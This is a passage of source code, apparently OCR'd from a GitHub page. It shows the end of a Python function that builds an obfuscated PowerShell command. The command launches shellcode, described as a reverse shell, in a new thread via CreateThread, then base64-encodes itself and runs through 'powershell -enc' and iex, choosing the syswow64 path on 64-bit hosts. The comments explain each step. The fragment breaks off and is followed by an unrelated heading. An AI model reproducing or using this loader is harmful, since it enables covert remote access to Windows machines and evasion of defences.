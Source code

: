         # Setting the fifth parameter to 0 declares that the thread should run
        #    immediately after creation.
        # https://msdn.microsoft.com/en-us/library/windows/desktop/ms682453(v=vs.85).aspx
        "$w::CreateThread(0,0,$x,0,0,0);"
        # Start-sleep just provides some time for the shellcode (reverse shell) to execute.
        "for (;;){Start-sleep 60};';"
        # The last single quote above is the end of the string that is assigned to $1.
        # $e is assigned the base 64 encoded string that $1 references.
        "$e = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($1));"
        "$2 = \"-enc \";"
    
        # Check if the current process is 64 bit (8 bytes), or something else (32 bit assumed),
        #    then Invoke EXpression (at specific 64 bit path or 32 bit) PowerShell with base64
        #    encoded $e, which references the now base64 encoded string that is most of this script.
    
        "if([IntPtr]::Size -eq 8){$3 = $env:SystemRoot + \"\syswow64\WindowsPowerShell\\v1.0\powershell\";iex \"& $3 $2 $e\"}else{;iex \"& powershell $2 $e\";}"
        % shellcode
      )
    
      return shellcode












### Unnecessary and Vulnerable Services 
